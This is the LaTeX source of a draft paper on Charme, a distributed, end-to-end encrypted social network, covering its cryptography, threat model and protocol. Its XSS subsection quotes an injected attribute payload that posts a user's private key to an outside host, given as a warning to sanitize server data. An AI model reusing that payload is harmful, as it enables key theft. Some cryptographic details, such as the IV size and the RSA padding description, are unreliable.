%% Erläuterungen zu den Befehlen erfolgen unter
%% diesem Beispiel.
\documentclass{scrartcl}
 \setlength\parindent{0pt}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{amsmath}
\PassOptionsToPackage{hyphens}{url}\usepackage{hyperref}
\usepackage{graphicx}

\usepackage{amssymb}
\usepackage{listings}

\usepackage[style=numeric,backend=bibtex]{biblatex}
\addbibresource{references.bib}

\lstdefinestyle{JSON2}
{
    language=JSON,
    literate = *{\ \ }{\ }1, %replaces each occurence of two consecutive spaces by one
}

\usepackage{tikz}
\usetikzlibrary{matrix,shapes,arrows,positioning,chains, calc}

 \PassOptionsToPackage{hyphens}{url}\usepackage{hyperref} %make url break
\title{Charme: A distributed social network with end-to-end encryption and contextual information}
\author{Manuel Schultheiß\\manuel.schultheiss@tum.de}
\begin{document}  \sloppy % sloppy is used for making url{} break
 
\maketitle

\begin{abstract}
\noindent
  \textbf{Abstract.} 
  Decentralized social networks with end-to-end encryption would take back control of data to the end-users. In this paper Charme is presented as such a network. First, some  basic cryptographic  principles are explained before focusing on the underlying  network protocol.
  \end{abstract}
  
  
\tableofcontents
 \newpage
\section{Prologue}

\begin{center}
I's personal. It's private.
And it's no one's business but yours.
\end{center}

These are the first words, of Phil Zimmermann's essay "Why I wrote PGP" from 1991 \cite{PHIL}. 24 year later, electronic communication has gained more and more attention in your everyday life. Today, letters have become instant messages and half of your real world conversations have become social network posts. But while you could be almost sure a letter remained private, today a bunch of stakeholders such as governments, technicians and ad-serving companies has access to data derived from your conversations. 
Most people I talk to simply give a "I have nothing to hide" as an answer when addressing this point. This may be true, as long as you are not a politician, your are not responsible for a business unit, or do not have anything else to say other people are willing to listen to. Otherwise information about you is always equal to power against you. While your self forgets most of the things you said, it is probably saved in some data center waiting to get parsed by some algorithms. With more and more data you become calculable, your actions can be predicted long before you perform them.

 Ads have become the number one revenue model of internet companies. 
Politicians and trying to expand mass surveillance and ban encryption whenever it is possible \cite{EFF}. With the decay of classic media, such as newspaper and television, social networks are the primary infrastructure of directing people to information now. The heterogeneous  landscape of newspapers and blogs providing different information is slowly fading. Your newsfeed has become the primary navigation source of information. And should not trust a single institution  here, because who controls what you read controls who you become.






\newpage
\section{Introduction}
In contrast to classic social networks, distributed social networks with end-to-end encryption can provide self control of your data and  independence from big companies.  \textit{Distributed} means, that there is no central server hosting your data, but many small servers all around the world, which everyone can  setup. Just like email, every participant has a unique address like \textit{yourname@yourserver.com}. With end-to-end encryption not even the server hosting your data can see your data. This is necessary for a distributed architecture as otherwise the server admin could read your messages for example.\\

Another innovation of Charme is the so called \textit{Context}, every post can have optionally. A context contains semantic, computer-readable information about the post.
 An algorithm can later aggregate all users moving by car from point A to point B tomorrow, with having 3 seats free with a tolerance of 20 kilometers for example. Or you can look up for friends making pizza for lunch and want to share their food today. Figure \ref{figContext} shows the creation of a context and the creation of a filter to search for existing context of other users. 
 Websites already providing share-economy services can also add their data to the Charme network, using the Charme Schema JSON Syntax, as defined in the file schema.coffee. The context system introduces elements of the \textit{Web of Data}, formerly known as the semantic web to social networks.

\begin{figure}[ht]
	\centering
  
\includegraphics[width=120mm]{illustrations/context.jpg}
	\caption{Context dialogues. Finding existing context on the left; Adding context on the right. After a user has selected a context on the right, the user can add parameters like Location or time for the context.}
	\label{figContext}
\end{figure}


\newpage
 \section{Encryption and Security}
 \subsection{Existing work}
With Diaspora one of the first popular distributed social networks was released. The messages are not end-to-end encrypted, however, which makes it possible for the server admin to read its users messages. 
A more secure concept is \textit{Twister} (\url{http://twister.net.co}), a Twitter like peer-to-peer micro blogging platform. Using the blockchain makes it possible to encrypt messages and even meta data (including the IP Address!). Charme does not encrypt meta data at the moment for simplicity and performance reasons, but such an encryption scheme could be implemented later on using techniques like already present in onion routing for example.
\subsection{Formal Notation used in this paper}
\subsubsection{Reach}
 We define the \textit{reach} of a server as this: Each server $S_i, i \in {0,1,2,...}$, on which at least one user has a public key of another user hosted on server $T_j, j \in {0,1,2,..}$ is \textit{reached} by this server.
The reach is a list of tuples $(S_i, T_j)$. See figure \ref{figContextGraph} as an example.

\begin{figure}[ht]
	\centering
    
\includegraphics[width=30mm]{illustrations/graph.pdf}

	\caption{$|Reach(A)| = deg(A) = 2
$ as the users on server A have public keys of two different servers. }
	\label{figContextGraph}
\end{figure}





 
\subsection{Fundamental Concepts}
\subsubsection{AES-CBC \label{AESCBC}}
AES is a fast symmetric encryption algorithm that was standardized in 2001 and is still considered secure, although there exist some attacks on it. The following explanation is based on the lecture slides of Carle et al \cite{carle}.

A key $K_{A,B}$ is used for encryption and decryption by the two parties A and B. 
Cipher Block Chaining Mode (CBC) ensures that blocks that are identical in the plaintext, are not identical anymore in the chiphertext. This is essential, as otherwise images can still be recognized for example, although they are encrypted. First, a initialization vector (IV) is created:
$$
c_0 = IV
$$

A plaintext block $p_i$ becomes a chipher block $c_i$ during encryption.
$$
c_i = Enc_K(c_{i-1} \oplus p_i)
$$
and the same thing reversed for decryption:
$$
p_i = c_{i-1} \oplus Dec_K(K, c_i)
$$
It is important that the IV is shipped with integrity protection, otherwise an attacker could modify the first 256 bits in order to set the first decrypted plaintext block to a custom value. The other blocks can not be influenced however. 
There are several techniques to add it (
\url{https://en.wikipedia.org/wiki/Authenticated_encryption}).
 Integrity protection can be achieved using the following steps using an encrypt-then-mac Scheme:
\begin{enumerate}
\item Encrypt Message using AES-CBC
\item Get SHA-256 hash value of encrypted message and salt with key k and crypto algorithm version a.
\item JSON Result is:\\\\ \{ a: 1, m: $Enc_{k||v}(text)$, h: sha256HMac($Enc_{k||v}$(text), k||v) \}\\\\ The algorithm version a is added, as otherwise, an attacker could extract the plaintext and use backwards compatibility to let the decryption and MAC check be performed by an old algorithm, also there is a better algorithm available.

For example: The current implementation supports Non-HMAC AES when the information was encrypted without a HMAC. An attacker could remove the HMAC key and just send the plain AES encrypted content to the client and the client would still decrypt it correctly.

\end{enumerate}
Please note that for more security, the salt for the sha256HMac should also not use k, but a derived version of k.

\subsubsection{RSA}
In RSA there are two different keys. The public key is visible to everyone, while the private key is only visible to the generator of both keys.  Asymmetric encryption is a lot of slower than symmetric encryption. So usually we generate an AES key, encrypt the text with the AES key and encrypt the AES key with the RSA key, rather than encrypting the whole text with the RSA key.
 Technically we generate large prime numbers $p$ and $q$.
\begin{eqnarray*}
 n = p *q 
\end{eqnarray*}
 and define
\begin{eqnarray*}
 \Phi(n) = (p-1)*(q-1)
\end{eqnarray*}
 Let e not equal to 1, smaller than $ \Phi(n)$ and not share a common divisor with $ \Phi(n)$.
 Now we compute d under the restriction:
 \newcommand{\Mod}[1]{\ (\text{mod}\ #1)}
\begin{eqnarray*}
 e*d = 1 \Mod{\Phi(n)}
\end{eqnarray*}
 To encrypt a message M or decrypt chipher C use:
\begin{eqnarray*}
 C = M^e \Mod{n}\\
 M = C^d \Mod{n}
\end{eqnarray*}
 To provide \textit{Ciphertext indistinguishability} RSA is used with a padding scheme like PKCS1. Here we generate n with more than two primes:
 \begin{eqnarray*}
 n = p_1*p_2*...*p_n
\end{eqnarray*}
with $p_1$ being r and $p_2$ being $q$.
\cite{carle}
 % TUM Network Security, WS 2014/15, Chapter 2.4 The RSA Public Key Algorithm

\subsubsection{Further reading}
\begin{enumerate}
\item PKCS\#1 v2.2 RSA Cryptography Standard\\\url{http://www.emc.com/collateral/white-papers/h11300-pkcs-1v2-2-rsa-cryptography-standard-wp.pdf} 
\item Lessons learned and misconceptions regarding encryption and cryptology \\\url{
http://security.stackexchange.com/questions/2202/lessons-learned-and-misconceptions-regarding-encryption-and-cryptology/2206#2206}
\item HMAC versus raw SHA hash functions \\\url{
http://dev.ionous.net/2009/03/hmac-vs-raw-sha-1.html}
\end{enumerate}


\subsection{Crypto Implementation}
There are a Javascript library called Gibberish AES for Javascript and Tom Wu's RSA Library for RSA providing the main functionality. Google wrote with its E2E project a better implementation of cryptographic algorithms which should replace the above ones as soon as possible. The long term goal is to use the W3C web crypto API however, if supported in all major browsers, as this one is more secure regarding key deletion from memory (RAM) and random number generation. 

\newpage
\section{Implementation}
\subsection{Backend Technology Stack}
On server side, PHP is used as an interpreter. The reason for PHP is that it has a wide community supporting it, as it is used by many other big websites like Facebook or Wordpress for example. Furthermore it does not depend on 100 extra packages for basic function with questionable future support like Node.js.
 \textit{ZeroMQ} is used to send socket messages and communicate between different PHP threads. \textit{Gearman} is necessary to execute background tasks like sending messages in the asynchronously. As a database, \textit{MongoDB} is used, as it is scalable and has the ability to directly store JSON object to the database.
Administrations scripts are written for GNU Bash to provide easy ssh access.


 \subsection{Client server separation}
In contrast to classic social networks, we separate client and server in two separate projects first. This is necessary, as otherwise a server could return malicious javascript to the user. In a perfect word, the user has to download and install the client locally and verify the file hash, For testing purposes, he can also use a web hosted version of the client. Although they are hosted on different domains, client and server can still connect to each other via cross origin resource sharing (CORS).

\begin{figure}[ht]
	\centering
  
\includegraphics[]{eds.pdf}
	\caption{Client and Server code is strictly separated. The client loads the Charme application from a local webserver, a browser plugin or a trusted server. This application connects to the server hosting the data via JSON.}
	\label{fig1}
\end{figure}


\subsection{Passphrase}
Charmet uses an \textit{encrypted data storage}. This means critical data is encryped with a passhprase using AES-CBC (Section \ref{AESCBC}) and hosted on the server  (Figure \ref{fig1}). Consequently the server can not read the user data. Such data includes
\begin{enumerate}
\item \textbf{Personal information} like phone number. This information can later be decrypted and encrypted with a public key to distribute it to other people.
\item \textbf{The private RSA key} used to decrypt everything from other users.
\item \textbf{ The key directory}, which contains the public keys of all contacts. Here it is important that the receiver B of a message sent by user A only uses the newest private key to decrypt, as a malicious server of the key directory owner could return an old public key of user B.
\end{enumerate}
for example. The data is signed to prevent forgery of information.

\subsection{Verifying private keys}
When we want to write an encrypted message to user B, we need the public key of user B first. However, as the server or someone else can provide a wrong public key, it is necessary to check the public key for correctness. If done so, we encrypt the public key of user B with our passphrase and store it in the encrypted data storage.
 
\subsubsection{Generating Fingerprints}
   Currently the fingerprint $f$ is generated by applying a SHA-256 Hash function on n (modulus) and e (exponent) concatenated:
   $$
   F = Sha256(n || e)
   $$
   The function in the code is called \textit{buildHash} and is located in \textit{keys.coffee}. For a better user experience, the fingerprint can be truncated and : seperated later on, so the result looks something like:
  
   \begin{center}
   12 : 3f : 3e : 2f: 12 : 3f : 3e : 2f: 12 : 3f : 3e : 2f (...)
   \end{center}
  
  instead of 
  
  \begin{center}
  123f3e3f123f3e2f123f3e2f (...)
  \end{center}
  
  
  Figure \ref{figFP} show the dialog to validate fingerprints.
  \begin{figure}[ht]
	\centering
  
\includegraphics[width=90mm]{illustrations/fingerprint.png}
	\caption{Fingerprint Validation Dialog}
	\label{figFP}
\end{figure}



  
\subsection{Preventing List and Message MITM Attacks}
Lists can be used to restrict access to certain information. Each list contains some people defined by the users. When a server behaves evil, we must ensure, that he can not manipulate the list and add new people for example, we will later send our message to.\\
  
 Furthermore we must ensure, that the autocomplete only returns name/address pairs that have been added by the user. Imagine the following case: Alice adds Bob with his CharmeId bob@somewhere.com to her key directory. Now she wants to send a message to Bob and opens the auto complete. She types Bob, and the server returns a modified CharmeId, probably on the same server (eve@somewhere.com). The Charme client would now encrypt the message with the other key and send it to Eve. So Eve could be able to get some sensitive information as Alice thinks she is communicating with Bob.\\

Now how can we ensure, that this can not happen?
\\
The second case is that a list contains additional people added by an evil server.

 \subsection{Post encryption}
A new post is encrypted, when it is restricted to a list of people. 
First we generate a postkey $k$, which encrypts the content of the post. Next we need to distribute $k_1$ to other people. We can use the symmetric edgekeys $e_1, e_2, ...$ of these people. We encrypt the post key with each edgekey ( $Enc_{e_1} (k)$) and distribute them to the receivers. An edgekey is a asymmetric key, that is established after public key verification and send via public key to the other party. This is because asymmetric cryptography is a lot of slower than symmetric cryptography.
 \subsection{Message encryption}
 

  
  Message encryption is basically working like in PGP. We save  public keys encrypted in the cloud, however, here. A simplified concept is illustrated in Figure \ref{fig2}). 
  A conversation $C$ consists of $n$ messages. A set of messages $S \in C$ has a symmetric key each. The symmetric key should change if a user is removed or a public key of a conversation participant is updated or a certain span of time has passed. Each message is encrypted with the newest symmetric key $s$.
  A message consists of information such as
  
  
  \begin{enumerate}
\item Text encrpyted with symmetric key s
\item Conversation ID
\item Key Id of symmetric key s
\item Time
\end{enumerate}
This information is also signed using the senders private key.



 \begin{figure}[ht]
	\centering
  
\includegraphics[]{pubkey.pdf}
	\caption{Basic message encryption. Server A can also send the message to more servers than only Server B. The client does not send the message directly to server B, as with increasing number of receivers this would cost to much bandwidth for the client.}
	\label{fig2}
\end{figure}


\textbf{The current implementation misses some fundamental security stuff. An attacker could initiate a conversation with the identity of client A and start a MITM attack. Therefore the next step of the implementation is to sign the initial message and each following message.}

  \subsection{Distributing private information}
  When giving private information like telephone number or email to other people, this is working slightly different to message distribution for performance reasons. See figure \ref{fig3} for a illustration of the process. This may look kind of complicated first and you may wonder why the encryption is not done like for messages. The answer if the access to a certain person is revoked, it would be inefficient to send the newly encrypted information to all users. Instead we creates called \textit{buckets}, each containing a maximum of k users. When a new piece of information is encrypted, we generate a random key $K$, and encrypt it with each bucket key $B_i$. As every user who has access to the information has the bucket key, the user can decrypt it with
  $$
  plaintext = Dec_{B_i}{Dec_K(chyphertext)}
  $$
  When access is revoked for a user, we simply generate a new bucket key for the bucket, the user was in and do not distribute the bucket key to the user. With this system we are able to revoke access to information and release new information to a user with doing $\mathcal O(k) = \mathcal O(1)$ requests. For Charme we set $k = 10$. The code is located in \textit{settings\_privateinfo.js}.
  
  
   \begin{figure}[ht]
	\centering
  
\includegraphics[]{prvInfo.pdf}
	\caption{Encryption of personal information}
	\label{fig3}
\end{figure}

    \subsection{Key Updates}
    When a private key or passphrase is compromised  it is necessary to recrypt the encryped data storage. In this case, all information are transmitted to the client, decryped with the current passphrase and encrypted with the new passhprase. The revision number for the public key increases afterwards.

  \subsection{Primary Attack Vectors}
  
  \subsubsection{MITM on Client Software}
  The client software must be distributed with integrity protection i nthe final release. For example as a Cordova package. To use the client software on a third party server is very dangerous and only recommended for testing purposes! The host of the client can theoretically read all your data by modifying the client software.
  
   There is also a new technology called sub resource integrity which can be used to validate Javascript and CSS resources (See \url{http://www.w3.org/TR/SRI/} and \url{http://githubengineering.com/subresource-integrity/}). Maybe they introduce some mechanism to validate a whole web page with a hash recommended by the majority of browser users and additionally located on a (Mozilla or Google) server. So lets keep an eye on that.

   \subsubsection{Attacks on Integrity Protection}
   Certain information, such as the Name/UserID pairs of a conversation must be distributed with integrity protection using either the private key of each receiver or the conversation key. Asymmetric private keys used for signing the message data have the following advantages and disadvantages in contrast to the symmetric conversation key.
   
   \textbf{Using the private key }
   \begin{enumerate}
   \item (Advantage) Slower (Factor ca. 1000)
    \item (Disadvantage) No attackers inside a conversation manipulating username/userId pairs
   \end{enumerate}
   
        
 
   \textbf{Additional Information:}\\
   OWASP Checklist: OTG-BUSLOGIC-003
   
     \subsubsection{New Conversations with malicious userId/Name pair }
     An attacker can initiate a new conversation with the name of a friend of you, but use another userId instead. Example:
      \begin{enumerate}
     \item Alice (alice@server.com) and Bob Alice (bob@server.com) are friends
     \item Eve initiates a new conversation with Bob with Name "Alice" and userId eve@server.com. 
     \item Bob thinks he is talking to Alice, but he is not.
     \end{enumerate}
     A solution for this problem would be to allow only names from the key directory.
   \subsubsection{XSS}
   One of the most critical attack vectors in Charme is Cross Site Scripting as with this technique private keys can be stolen.
   Therefore it is important to sanitize all displayed data from other people and servers. Never trust the server. For example imaging data is a JSON Object returned by the server:
   
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!\\
     
        \textbf{Additional Information:}\\
   OWASP Checklist: OTG-CLIENT-002
   
   \subsubsection{Session Capturing}
Send JSON request from another Website to host server. Make sure you can not access unencrypted user data such as lists for example.

\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys which have been compromised earlier for the user .
      \subsubsection{Malformed data}
      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user. Therefore malformed requests should be filtered by the client by checking for missing and correct typed values.
      \subsubsection{Logging of Requests}
      In the current implementation, the user id is sent to other servers when requesting a profile or performing a search on this server for example. The server host could log who is visiting which profiles. 
Possible counter measures are 
\begin{enumerate}
\item Performing a set of user ids, in which only one is the actual user id. This would affect the performance however and will only work if enough users are provided.
\item 
\end{enumerate}      
      
      \subsubsection{Spam}
      All posts from non-friends should be blocked. An exception are posts containing semantic information which should be searchable all over the web. Here we can either expand the search to friends server (efficient but may contain more spam) or even check friend of friend posts only (more computational power, but less spam).
      \newpage



\section{Protocol Specification}

\subsection{Login}
\textbf{ 1st step:} Get password salt value via \textit{reg\_salt\_get}\\
\textbf{2nd step:} Login with \textit{user\_login} and parameters u (username) and p (salt hashed password). Status PASS is returned if successful.

  \subsection{Search}
  When it comes to search, we face some problems. Of course, it is not efficient to query hundreds or even more server from one client in the charme network. Filesharing applications typically use Kademlia  or Chord to index data within peer-to-peer networks. Such concepts may also be useful for search, as YaCy for example has shown. Thorsten Schütt et al. have proposed a technique which can be used for multidimensional parameter search in their paper \textit{Range queries on structured overlay networks}. A search in social networks could also use the social graph to rank results of near people higher than from people more far away.
  
  
\subsection{Messages}
To load the conversation preview list, \textit{messages\_get} is called. Each message has a message key. If a new message Key is generated, it is encrypted with the edgekey of the receiving users (Section \ref{edge}).

\subsection{Edgekeys\label{edge}}
For every kind of communication between two users we generate a directed edgekey, to increase performance as asymmetric encryption for every kind of message would require to much computational power.
The edgekeys should change after a certain timespan. (1 week?). Currently the edgekey is generated after a key was added to a key directory in \textit{settings\_keymanager.js}. The edgekeys are requested to decrypt from user B. Later they will be cached in local storage of user B to even gain the performance we have planned to gain.
\subsection{Recryption of data}
When the private key is updated, it is required to recrypt the data in the encrypted data storage. This is done in the function \textit{updateDataOK()} in \textit{settings\_keymanager.js}.



\subsubsection{Signup}
Client:
\begin{enumerate}
\item Get salt s from server
\item Generate password p = Sha256(s||p') from plaintext password p'
\item Generate passphrase PP and asymmetric keypair KP. Encrypt KP with PP.
\item Generate sub keys fastkey1 and fastkey2, encrypt them with passphrase.
\item Hash username with FK1 to prove integrity later
\item transmit Enc(KP), Enc(FK1), Enc(FK2), Sha256(username||FK1) and other userdata to server.

\end{enumerate}

\subsubsection{Add public key to keydirectory}
A new public key is requested, verified and added to the key directory.
\\\\

\begin{tikzpicture}



\matrix (m)[matrix of nodes, column  sep=1cm,row  sep=8mm, nodes={draw=none, anchor=center,text depth=0pt} ]
{
Client A & & Server A & & Server B &  & Client B \\[-4mm]
};

\draw[] (m-1-1.south east)--(m-1-1.south west);
\draw[] (m-1-3.south east)--(m-1-3.south west);
\draw[] (m-1-5.south east)--(m-1-5.south west);
\draw[] (m-1-7.south east)--(m-1-7.south west);



\end{tikzpicture}
\\\\

\begin{enumerate}
\item Client A requests public key of client B
\item TODO
\end{enumerate}

\subsubsection{Init Conversation}
Let convId the id of the conversation. Let's call $D_j$ the payload. It contains information relevant to the conversation such as time, last preview text, members or identifier.  $D_j$ must be integrity protected of course. K is a 256 bit symmetric key used for AES encryption. The communication between the client initiating a new conversation and its server is defined as this: \\\\
\begin{tikzpicture}



\matrix (m)[matrix of nodes, column  sep=1cm,row  sep=8mm, nodes={draw=none, anchor=center,text depth=0pt} ]
{
Client A & & Server A \\[-4mm]
1. Obtain public keys& & \\[-7mm]
  of Users $U_1, U_2,...$ & & \\[-7mm]
2. Generate $K = \{0,1\}^{256}$ & & \\[-7mm]
3. $D_j = \{Enc_{Pub}(K, U_i),$ & & \\[-7mm]
$ convId, ... \}$ & & \\[-7mm]
 & & \\
 & Send $D_j$ & \\
& & Distribute $D_j$ \\[-7mm]
& & to other servers \\
 & ACK (HTTP 200) & \\
};

\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-1.south east)--(m-1-1.south west);
\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-3.south east)--(m-1-3.south west);

\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-8-2.south west)--(m-8-2.south east);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-11-2.south east)--(m-11-2.south west);
\end{tikzpicture}
\\\\
Server A distributed the payload to other servers afterwards. Technically this is done by a Gearman daemon running in the background. The receiver clients can afterwards decrypt the key K with their private key.

More in detail, the JSON message schema to init a conversation from the senders client to the senders server looks like this:

\begin{itemize}
    \item \textbf{id} = message\_distribute
    \item \textbf{action} = initConversation
    \item \textbf{messageData} (signed with $K$)
  \begin{itemize}
    \item \textbf{hmac}: The HMAC to check integrity
    \item \textbf{revision}: Revision of $K$
    \item \textbf{objType} = object
     \item \textbf{obj}
     \begin{itemize}
        \item \textbf{receivers}: List of userIds
        \item \textbf{usernames}: List of (userId,name) tuples.
 \end{itemize}
    \end{itemize}
    \item \textbf{messageKeys}: List of public key encrypted public keys $K$
\end{itemize}


The server redirects the message to the receivers servers afterwards, the message JSON has the following properties:

\begin{itemize}
    \item \textbf{id} = message\_receive
    \item \textbf{action} = initConversation
    \item \textbf{messageData} (signed with $K$)
    \begin{itemize}
    \item (See above)

    \end{itemize}
    \item \textbf{key}: Public key encrypted public key $K$ for the receiver
\end{itemize}

Please note that here we could be more efficient in the future by grouping the message\_receive requests for same people on same servers.


%       r1.put("id", "message_distribute");
%            JSONObject jsonMessageData = new JSONObject();
%            jsonMessageData.put("action", "initConversation");
%            jsonMessageData.put("usernames", peopleJSON);
%            jsonMessageData.put("receivers", jsonReceivers);
%            r1.put("messageData", jsonMessageData);
%            System.out.println("JSON jsonMessageKeys IS:" + jsonMessageKeys.toString());
%            r1.put("messageKeys", jsonMessageKeys);
%            
            
            
            
\subsubsection{Add People to Conversation}
People present in the key directory can be added to an existing conversation.
As they should not be able to see previous messages, a new message key $K_{(revision+1)}$ is generated in this case by the person who adds the new people.
This key is distributed to the other people afterwards. The people in the conversation have now to be signed again.

\subsubsection{Write message}

Let K be the message key, which has been generated at conversation init.\\\\
\begin{tikzpicture}



\matrix (m)[matrix of nodes, column  sep=1cm,row  sep=8mm, nodes={draw=none, anchor=center,text depth=0pt} ]
{
Client A & & Server A \\[-4mm]
& & \\[-7mm]
& & \\[-7mm]
1. Get $K$ & & \\[-7mm]
2. $D_j = \{Enc_{K}(message),$ & & \\[-7mm]
$ convId, ...\}$ & & \\[-7mm]
 & & \\
 & Send $D_j$ & \\
& & Distribute $D_j$ \\[-7mm]
& & to other servers \\
 & ACK (HTTP 200) & \\
};

\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-1.south east)--(m-1-1.south west);
\draw[shorten <=-1.5cm,shorten >=-1.5cm] (m-1-3.south east)--(m-1-3.south west);

\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-8-2.south west)--(m-8-2.south east);
\draw[shorten <=-1cm,shorten >=-1cm,-latex] (m-11-2.south east)--(m-11-2.south west);
\end{tikzpicture}

\section{Future Work}

  \subsection{Token Generation and API}
  In the future Charme will be able to be used by other applications as data storage. Therefore, we create a key $A_i$ and a token $T_i$ for each application i.
All keys and tokens are generated randomly and encrypted with a passphrase derived key A'. When the passphrase is updated, we need to recrypt A'.
An application can now save data to the Charme server, once the triplet $A_i$, $T_i$ and Charme userId was added to the application.
To perform an action A, the charme server sends a random value R to the application. The application generates the hash value $H(A|R|T_i)$ and sends it back to the server, where the hash is validated to maintain authenticity. Actions can be  STORE(key, value) and GET(key). Possible applications could be a note taking app or a calendar, saving data encrypted on the server for example.


\subsection{Use of encrypted Databases}
For searching contextual posts, it will be necessary to hide the meta information. Here we could use encrypted databases as CryptDB developed at the MIT (\url{http://css.csail.mit.edu/cryptdb/}). The developers also responded to the paper  \emph{Inference attacks on property preserving encrypted databases }from Naveed et al., 2015, which questioned the security of such databases.


  \subsection{Location based Chats}
  Idea: We save the GPS position $p_i = (x_i,y_i)$  every x seconds. After some time
  we generate a vector $v = (x_0+x_1+x_2+..., y_0+y_1+y_2+...)$. Now we use a hash function $H$ to map the vector with a location accuracy defiend as $a$. 
  $$
  H(v) = (\lceil v^{(0)}/a \rceil +\lceil v^{(1)}/a \rceil )
  $$
  This will generate a unique key for each location. We save a trace of locations in the first place to detect a moving object such as a train, ship or bus.  However, the location sensors of the mobile device must be very accurate!
  
  
  
  \subsection{Data Sharing for the Internet of Things}
  For Internet of Things (IoT) devices, it may be helpful to allow services or institutions to access your devices. Charme could handle the key management with using the already existing symmetric edgekeys $E$ (See section \ref{edge} for details) derived from the public key for the communication between service and device. (Figure \ref{iot})
Of course, we can not use the edgekey e directly, as a evil device could 
otherwise intercept all communication between the service and the user.
Therefore we drive the key $K\_A$ in the following manner:
$$
R = Random 256bit key
$$
$$
K\_A = Sha256(R || e)
$$
Afterwards we send $R$ to the service provider and $K\_A $ to the device.
\begin{figure}[ht]
	\centering
